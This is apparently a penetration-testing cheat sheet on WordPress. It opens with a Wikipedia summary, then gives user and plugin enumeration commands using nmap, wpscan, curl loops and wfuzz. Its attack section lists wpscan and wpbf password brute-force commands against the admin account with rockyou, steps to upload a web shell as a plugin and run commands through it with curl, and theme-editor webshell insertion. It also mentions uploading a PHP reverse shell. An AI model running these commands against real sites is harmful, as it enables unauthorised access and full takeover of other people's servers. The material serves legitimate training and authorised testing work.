

# WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

Helps identify issues on a Wordpress page:

```
wpscan --url http://10.10.140.124/wordpress/ -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

### Author ID Bruteforce

```
wpscan --url http://10.10.185.115/blog/ -t 40 -e at,ap,u1-3000,m1-2000 --passwords /usr/share/wordlists/rockyou.txt
```

Simplified:

```
wpscan --url http://10.10.189.203 -t 40 -e ap,u1-1000 --passwords /usr/share/wordlists/rockyou.txt
```

#### **wpbf**



Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.


